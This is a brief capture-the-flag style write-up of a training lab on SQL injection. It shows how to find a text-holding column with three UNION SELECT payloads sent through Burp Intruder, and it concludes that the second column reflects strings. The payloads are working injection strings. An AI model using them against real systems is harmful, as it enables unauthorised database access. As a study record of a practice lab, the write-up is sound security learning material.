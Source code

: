 # SQL injection UNION attack, finding a column containing text
#WRITEUP 
#UNION 

The same scenario from [[number of columns writeup]] is presented. 

The first step is to determine the number of columns of the result set.

![[scenario.png]]

The same number of columns is determined.

![[attack result.png]]

Then apply the following payloads on other `Intruder` attack:

```SQL
' UNION SELECT 'nAlKWn',NULL,NULL-- 
' UNION SELECT NULL,'nAlKWn',NULL-- 
' UNION SELECT NULL,NULL,'nAlKWn'--
```

![[data type payload.png]]

Placing the payload on the page the following appears:

![[reflection.png]]

The second column of the result set can hold string data. The lab is solved!